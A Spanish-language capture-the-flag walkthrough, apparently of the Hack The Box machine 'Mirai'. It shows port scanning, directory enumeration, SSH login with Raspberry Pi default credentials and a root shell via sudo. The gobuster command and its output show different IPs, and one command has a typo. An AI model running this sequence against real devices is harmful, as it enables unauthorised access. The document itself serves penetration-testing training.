

Reconocimiento
sudo nmap -sCV --min-rate 5000 -Pn 10.10.10.48 Nmap scan report for 10.10.10.48
Host is up (0.038s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey:
| 1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
| 2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
| 256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_ 256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp open domain dnsmasq 2.76
| dns-nsid:
|_ bind.version: dnsmasq-2.76
80/tcp open http lighttpd 1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: lighttpd/1.4.35
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelAl comprobar que el puerto 80 esta abierto, nos disponemos a ver que se encuentra en él. Cuando entramos se encuentra en blanco, pero podemos usar la herramienta dirbuster para explorar el servidor web en busqueda de firectorios y ficheros en el.
Comando:
gobuster dir --url http://10.10.29.96/ -w /usr/share/seclists/Discovery/Web-Content/common.txtResultados:
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://10.10.10.48/
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.1.0
[+] Timeout: 10s
===============================================================
2022/03/29 12:27:48 Starting gobuster in directory enumeration mode
===============================================================
/_framework/blazor.webassembly.js (Status: 200) [Size: 61]
/admin (Status: 301) [Size: 0] [--> http://10.10.10.48/admin/]
/swfobject.js (Status: 200) [Size: 61]
===============================================================
2022/03/29 12:28:10 Finished
===============================================================Al ver los resultados comprobamos que tiene un directorio /admin al cual comprobaremos si hay algo.

Nos encontramos que hay un panel de administracion llamado Pi-Hole lo cual nos da una pista de que nos estamos enfrentando a un SO Raspbian.
Explotación
Ahora que sabemos a que nos enfrentamos y la "temática" de la maquina, en la botnet de Mirai usaban usuarios y credenciales por defecto y las de un dispositivos con este SO son:
pi:raspberryIntentamos conectarnos por SSH con estas credenciales.
sh pi@10.10.10.48 Y vemos que nos da acceso a la shell de la máquina.
The authenticity of host '10.10.10.48 (10.10.10.48)' can't be established.
ED25519 key fingerprint is SHA256:TL7joF/Kz3rDLVFgQ1qkyXTnVQBTYrV44Y2oXyjOa60.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.48' (ED25519) to the list of known hosts.
pi@10.10.10.48's password:
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost
SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.
SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.
pi@raspberrypi:~ $ Usamos el comando sudo su para elevar privilegios y con ello ser root
pi@raspberrypi:~ $ sudo su
root@raspberrypi:/home/pi#